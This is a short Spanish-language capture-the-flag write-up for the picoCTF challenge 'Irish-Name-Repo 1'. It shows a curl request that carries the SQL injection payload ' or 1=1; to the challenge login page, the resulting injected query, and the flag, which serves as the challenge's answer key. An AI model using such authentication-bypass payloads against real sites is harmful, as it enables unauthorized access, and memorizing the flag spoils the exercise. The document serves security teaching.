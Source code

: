 # Irish-Name-Repo 1

## Descripción
Hay un sitio web en funcionamiento en https://jupiter.challenges.picoctf.org/problem/50009/. ¿Crees que puedes iniciar sesión? ¡Prueba a ver si puedes iniciar sesión!

## Pistas
- No parece haber muchas formas de interactuar con esto. Me pregunto si los usuarios se guardan en una base de datos.
- Intente pensar en cómo verifica el sitio web su inicio de sesión.

## Solución
```bash
C:\Users\Ricardo>curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=Ricardo&password=' or 1=1;&debug=1"
<pre>username: Ricardo
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='Ricardo' AND password='' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```

## Bandera
picoCTF{s0m3_SQL_fb3fe2ad}

## Notas adicionales
| Concepto | Definición |
|--------|--------|
| Inyección sql | La inyección SQL es la colocación de código malicioso en sentencias SQL, a través de la entrada de páginas web |

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)